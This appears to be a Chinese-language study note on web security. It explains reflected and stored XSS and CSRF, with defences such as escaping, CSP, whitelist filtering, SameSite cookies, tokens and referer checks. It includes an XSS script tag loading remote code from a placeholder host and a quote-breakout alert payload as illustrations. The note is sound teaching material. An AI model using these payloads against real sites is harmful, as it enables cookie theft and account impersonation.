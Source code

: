 ## XSS 跨站脚本攻击

即注入脚本到页面，为所欲为。例如当后台的html模板为`<div>#{content}</div>`,而其中的content正好是我们前台传递过来的url的参数，
这时如果我们传入的url参数为一个脚本，例如`<script src='http://xxx.xxx.xx/index.js'></script>`这个时候我们就可以在这注入的脚本里面为所欲为。
如盗用cookies进而冒充登陆,盗取数据等等。

跨站攻击有几种分类:
- url参数直接注入 (反射型)
- 存储到数据库中后被读取时注入 (存储型)

注入点：
- html内容
- 属性
- javaScript代码
- 富文本

## XSS 的防御
可直接使用已有的轮子`XSS`。 CSP。
### 转义
#### html内容
将`<`和`>`分别用`&lt;`和`&gt;`来替换

#### html属性
- <img class = "#{class}">, 当class当中含有引号的时候，会将属性提前关闭，对应的策略任然是转义,使用`&quto;`来替代双引号，使用`&#39`来代替单引号  

#### javaScript代码
当我们的代码当中含有后台传回来的数据的时候，也有可能由于引号问题而提前结束字符串， 如下
```
<script>
    var data = "#{data}" 
    // 当出现XSS攻击的时候上面的data可能成为这样: var data = "hello";alert(1);"";
</script>
```
- 解决办法之一是将data当中的双引号转义`"` => `\"`， 但是这种方式不能完全解决问题
- 正确的解决办法是在返回数据的时候使用JSON.stringfy将数据转换成JSON格式，它会对引号等进行转义，更加方便

#### 富文本

- 使用黑名单: 即过滤那些不允许的标签 // 不推荐
- 使用白名单: 遍历html，不在白名单当中的标签和属性应该删除，可使用`cheerio`这个库莱操作`dom`

### CSP 指定哪些内容可以执行
内容安全策略( CSP ) - HTTP | MDN
- 参看MDN


## CSRF 跨站请求伪造

通过发送请求来进行攻击，例如有一个网站a, 它有它的前端和后端，当用户登陆后，会在本地保存自己的cookies，
然后有一个攻击者b的网站，当用户无意间，点击进入了b的网站。
b网站的脚本会创建一个form表单，并设置相应的值，然后触发提交，利用form表单的无跨域限制，
冒充用户的身份使用post或者get去发送或者获取一些数据到a网站的后台，这样是特别危险的

## CSRF 防御
### 禁止第三方网站携带Cookies
设置Cookies的samesite选项，但是现在只有chrome支持它

### token 和 验证码

因为CSRF一般是不会经a网站的前端的，所以我们可以在a网站的前端添加一些信息，这样攻击者的b网站就拿不到我们的信息
- 验证码: 可以用轮子，如`ccap`, 前后端配合，后端生成验证码图片和数据，把图片返回给前端，数据可以用户id为键存储起来，下一次请求来的时候将验证码和之前存的进行比对
- token: 一个随机的字符串。

### 验证 referer

通过验证referer来禁止第三方网站的访问   
